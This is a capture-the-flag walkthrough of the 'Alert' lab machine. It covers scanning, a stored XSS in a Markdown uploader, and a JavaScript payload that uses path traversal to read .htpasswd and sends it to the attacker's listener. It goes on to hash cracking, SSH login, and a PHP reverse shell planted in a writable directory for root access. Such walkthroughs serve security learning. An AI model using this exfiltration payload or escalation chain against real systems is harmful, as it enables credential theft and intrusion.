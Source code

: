 # Alert walkthrough

Tags: Stored XSS, LFI, JavaScript scripting, PHP reverse shell

## Connecting to Alert machine

Target IP address:      10.10.11.44
Target Domain:          alert.htb

Attacker IP address:    10.10.16.2

Command to connect:     `sudo openvpn /path/to/ovpn`

## Scanning and Enumeration

### Nmap scan

After the VPN connection is established and the machine is started, we can start scanning the target machine using `nmap`. The command used is:

`nmap --min-rate 3000 -p- -A 10.10.11.44`

The flags used are:

1. `--min-rate` : to specify the minimum rate of packets per second to send to the target machine
2. `-p-`        : to specify the scan should be performed on all ports
3. `-A`         : to enable OS detection and version detection

The results of the `nmap` scan is as below:

```bash
nmap --min-rate 3000 -p- -A 10.10.11.44
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-23 21:11 +08
Nmap scan report for 10.10.11.44
Host is up (0.020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
12227/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/23%OT=22%CT=1%CU=39556%PV=Y%DS=2%DC=T%G=Y%TM=676
OS:96187%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M542ST11NW7%O2=M542
OS:ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=M542ST11NW7%O6=M542ST11)WIN(W1
OS:=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O
OS:=M542NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N
OS:)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=
OS:G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   65.75 ms 10.10.16.1
2   12.89 ms 10.10.11.44

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.24 seconds``
```

Based on the results above, the only open ports are port 22 (SSH) and port 80 (HTTP). Port 12227 is filtered so it shouldn't contain anything that might be useful for us right now.

Currently, the only port that interests us is port 80 and looking at the scan results, it seems that the domain of the target machine is `alert.htb`. So, we can now asssociate the target IP address (10.10.11.44) to this new-found domain in `/etc/hosts`.

Once that is done, we can just input `http://alert.htb` into the browser to visit the target website that is being served from the target's port 80.

### Visiting the website

Once we visit the website, we will be greeted with a page that allows us to upload a file , specifically an `.md` file. Aside from that, there is a **Contact Us** page that allows us to input any text, and an **About Us** page that doesn't do anything interesting for us. The main targets would be the main page where we can upload Markdown files and possibly the **Contact Us** page.

So, the first thing to try out right now is to upload a Markdown file and once the file is uploaded, it will parse the Markdown file and show us the contents, formatted correctly based on Markdown syntax. By intercepting the requests, we can modify the contents of the Markdown file we uploaded into JavaScript code and perform Cross-Site Scripting.

![XSS](./Screenshots/XSS%20possible.png)

![XSS 2](./Screenshots/XSS%20possible%20(website).png)

There is also a Share button at the bottom right corner of the page. If we click on the button, with the XSS script in the Markdown, the script will still be executed. This means that this is a Stored XSS attack where the script is stored on the server and will be executed whenever the page is loaded. This is a very useful if we can get this to be executed by an administrator or a root user.

## Exploitation

Since we now have an XSS vulnerability, we can try uploading the "Share" link through the **Contact Us** page. So first, we need to get a XSS payload that can transmit useful information. The payload will look something like this:

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.2:8888/?file_content=" + encodeURIComponent(data));
  });
</script>
```

By using this script, we can get the server to provide us with the contents of the `.htpasswd` file and to receive the contents we will need to first set up a listener. To do this, we can run `python3 -m http.server 8888` using the same port number in the payload above. Once this listener is setup, we can send the payload to the website via the **Contact Us** form.

Once the payload is sent, we can return to the listener and we should see some output.

![Listener output](./Screenshots/capturing%20credentials.png)

We can decode the output using any URL decoder tool, and we can extract only the useful information and save it to a file for further decrypting or brute forcing. The output will look something like this:

```hash
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

Based on the output above, we can clearly identify the part of the hash that we need to crack. For this, I will be using `hashcat`. The command is as below:

```bash
hashcat -a 0 -m 1600 possible_credential.txt /path/to/wordlist
```

The password will be shown after a few minutes and we can use this to login to the target machine via SSH. The command is `ssh albert@alert.htb` and when prompted for the password, just paste the one cracked from hashcat. Once logged in, we can immediately retrieve the user flag by displaying the contents of user.txt in albert's home directory.

## Privilege Escalation

After obtaining the user flag, the next thing to look for is the root flag, which is normally stored as `root.txt` in `/root`. To do this, we need root privileges, which we currently don't have. So to find privilege escalation opportunities, we can start by getting `linpeas.sh` in. To do this, we can use `curl`.

Once `linpeas.sh.` is downloaded, we can add execute permissions to it and run it. The script will automatically scan for any potential vulnerabilities and report them to us. After running the script, we can see that there are several interesting paths as shown in the screenshot below:

![Interesting paths](./Screenshots/Intersting%20Files.png)

Looking into the directories highlighted in red, we can see that there are several PHP files and more directories.

![Directory of the interesting paths](./Screenshots/Directory%20of%20Interesting%20FIles.png)

And the `config` directory is actually editable by the `management` group, which `albert` is a part of. So we can go into this directory and write a reverse shell using PHP.

![Reverse Shell in PHP](./Screenshots/reverse%20shell%20using%20php.png)

However, even if we have this file, we still have no way of accessing or invoking this. So we need to go back to the output from linpeas and do further digging.

Looking at the **Active Ports** section in linpeas, we see that port 8080 is actually open and listening for connections. We can forward this port so that we can visit the page that is being hosted on the port from our local machine. To so this we need to run:

```bash
ssh -L 8888:localhost:8080 albert@alert.htb
```

and once that command is executed, we can go back to our local machine's browser and visit `localhost:8888` to view the site. From the website, we can see that it is actually related to the web-monitor directory that we had access and made changes to it earlier. Since we know the path to the reverse shell, we can just append it to the URL to invoke the PHP file. So the URL will look something like this, `http://localhost:8888/config/shell.php`. Once this is run, and assuming we already have a listener running, we will have a reverse connection to the victim machine. We can then use this to get a root shell and obtain the root flag.

